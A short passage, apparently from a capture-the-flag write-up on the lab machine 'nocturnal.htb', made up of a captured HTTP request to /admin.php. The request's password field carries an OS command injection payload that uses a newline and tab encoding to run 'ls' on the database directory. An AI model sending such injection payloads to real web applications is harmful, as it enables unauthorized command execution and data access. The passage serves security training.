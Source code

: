 ![](images/2025-06-04_09-51_hotfix_os_command_injection_var_www.png)

```shell
POST /admin.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=8a93d5flq8vti3aeo38vn3n40o
Connection: keep-alive

password=foobar%0Als%09/var/www/nocturnal_database/<&0&backup=
```

![](images/2025-06-04_09-51_hotfix_os_command_injection_nocturnal_database_location.png)